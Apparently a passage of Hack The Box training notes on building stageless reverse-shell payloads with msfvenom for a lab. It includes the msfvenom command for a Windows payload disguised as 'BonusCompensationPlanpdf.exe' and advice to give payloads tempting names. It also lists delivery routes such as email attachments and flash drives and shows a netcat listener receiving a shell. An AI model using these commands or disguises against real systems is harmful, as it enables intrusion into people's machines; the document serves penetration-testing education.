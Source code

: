 - Defines the tool used to make the payload.
- This `option` indicates that msfvenom is creating a payload.
- Specifies a `Linux` `64-bit` stageless payload that will initiate a TCP-based reverse shell (`shell_reverse_tcp`).
- When executed, the payload will call back to the specified IP address (`10.10.14.113`) on the specified port (`443`).
- The `-f` flag specifies the format the generated binary will be in. In this case, it will be an [.elf file](https://en.wikipedia.org/wiki/Executable_and_Linkable_Format).
- Creates the .elf binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.

At this point, we have the payload created on our attack box. We would now need to develop a way to get that payload onto the target system. There are countless ways this can be done. Here are just some of the common ways :

- Email message with the file attached.
- Download link on a website.
- Combined with a Metasploit exploit module (this would likely require us to already be on the internal network).
- Via flash drive as part of an onsite penetration test.

We would have a listener ready to catch the connection on the attack box side upon successful execution.

```shell
NolanCarougeHTB@htb[/htb]$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```

We can also use msfvenom to craft an executable (`.exe`) file that can be run on a Windows system to provide a shell.

```shell
NolanCarougeHTB@htb[/htb]$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```
